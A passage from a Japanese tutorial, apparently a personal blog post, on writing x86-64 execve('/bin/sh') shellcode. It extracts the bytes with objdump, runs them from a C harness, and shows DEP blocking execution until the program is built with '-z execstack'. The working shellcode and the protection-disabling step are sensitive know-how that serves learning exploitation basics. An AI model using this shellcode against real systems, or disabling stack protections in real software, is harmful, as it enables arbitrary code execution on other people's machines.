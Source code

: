 ここに表示されているバイト列の先頭にeipを移すことができれば、シェルが立ち上がる。

## シェルコードを明示的に実行させてみる
上で作ったシェルコードをもとに、明示的に実行させるコードをC言語で書くと次のようになる。
```
$ objdump -M intel -d a.out | grep '^ ' | cut -f2 | perl -pe 's/(\w{2})\s+/\\x\1/g'
\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb8\x3b\x00\x00\x00\x0f\x05
```
> fishで動かすと\xがつかないのでbashで立ち上げる

```
/* shell.c */
int main()
{
    char shellcode[] =
        "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb8\x3b\x00\x00\x00\x0f\x05";

    (*(void (*)())shellcode)();
}
```
コンパイルして実行しようとすると落ちる
```
❯ gcc shell.c
❯ ./a.out
fish: Job 1, './a.out' terminated by signal SIGSEGV (Address boundary error)
```
これは、Data Execution Prevention (DEP) と呼ばれるセキュリティ機構により、スタック領域には実行可能ビットが立っていないからである。 
DEPは、その実装の名前からExecShieldと呼ばれることもある。
```
❯ objdump -x a.out
...
 DYNAMIC off    0x0000000000002de8 vaddr 0x0000000000003de8 paddr 0x0000000000003de8 align 2**3
         filesz 0x00000000000001f0 memsz 0x00000000000001f0 flags rw-
    NOTE off    0x0000000000000338 vaddr 0x0000000000000338 paddr 0x0000000000000338 align 2**3
         filesz 0x0000000000000040 memsz 0x0000000000000040 flags r--
    NOTE off    0x0000000000000378 vaddr 0x0000000000000378 paddr 0x0000000000000378 align 2**2
         filesz 0x0000000000000044 memsz 0x0000000000000044 flags r--
0x6474e553 off    0x0000000000000338 vaddr 0x0000000000000338 paddr 0x0000000000000338 align 2**3
         filesz 0x0000000000000040 memsz 0x0000000000000040 flags r--
EH_FRAME off    0x0000000000002004 vaddr 0x0000000000002004 paddr 0x0000000000002004 align 2**2
         filesz 0x0000000000000034 memsz 0x0000000000000034 flags r--
   STACK off    0x0000000000000000 vaddr 0x0000000000000000 paddr 0x0000000000000000 align 2**4
         filesz 0x0000000000000000 memsz 0x0000000000000000 flags rw-
   RELRO off    0x0000000000002dd8 vaddr 0x0000000000003dd8 paddr 0x0000000000003dd8 align 2**0
         filesz 0x0000000000000228 memsz 0x0000000000000228 flags r--
...
```
STACKと書かれた部分から、スタック領域にはxビットが立っていないことがわかる。

DEPを無効にしてコンパイルすると、シェルの起動に成功する。
```
❯ gcc -z execstack shell.c
❯ ./a.out
sh-5.1$ uname -a
Linux mizuiro-arch 5.10.70-1-MANJARO #1 SMP PREEMPT Thu Sep 30 15:29:01 UTC 2021 x86_64 GNU/Linux
sh-5.1$ exit
exit

```
プログラムヘッダを調べてみると、この場合はスタック領域が実行可能になっていることが確認できる。
```
❯ objdump -x a.out
プログラムヘッダ:
    PHDR off    0x0000000000000040 vaddr 0x0000000000000040 paddr 0x0000000000000040 align 2**3
```